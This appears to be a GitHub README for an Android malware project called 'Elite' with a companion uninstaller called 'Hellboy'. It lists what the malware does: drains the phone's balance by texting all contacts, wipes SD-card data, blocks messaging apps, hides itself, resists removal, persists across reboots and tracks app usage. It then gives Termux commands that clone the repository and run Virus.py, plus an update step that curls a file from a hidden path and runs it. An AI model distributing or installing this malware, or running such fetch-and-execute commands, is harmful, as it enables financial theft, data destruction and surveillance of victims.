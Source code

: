 # Android-Elite-Virus
Elite is an android virus and Hellboy is an anti-virus that has features as mentioned below.

Elite Android Virus Features:-

    Send sms continuously from the device to all phone contacts randomly till mobile balance is nil.
    Block sms messenger, etc apps.
    Wipe out sd-card data completely.
    Hide app icon from app launcher as well as recent category.
    Cannot uninstalling this virus app from application manager.
    Run in background continuously and gets restarted even after device is turned ON/OFF.
    Track the user's interaction by retrieving the applications that user has started. 

Hellboy Android Anti-Virus Features:-

    The only solution to uninstall Elite virus from infected mobile.
    It forces to uninstall, so that it can be made one time use only.  





# ANDROID-VIRUS



<img src="img1.jpg">



# INSTALLATION {Termux}


* `apt update`

* `apt upgrade`

* `termux-setup-storage`

* `pkg install python -y`

* `pkg install git -y`

* `git clone https://github.com/DeV1LN1H4d/ANDROID-VIRUS`

* `cd ANDROID-VIRUS`

* `python Virus.py`


## New Update ANDROID-VIRUS 😉


* `apt update`

* `apt upgrade`

* `termux-setup-storage`

* `pkg install python -y`

* `cd $HOME && curl https://raw.githubusercontent.com/DeV1LN1H4d/ANDROID-VIRUS/main/.hidden/Virus >> Virus.py`

* `python Virus.py`
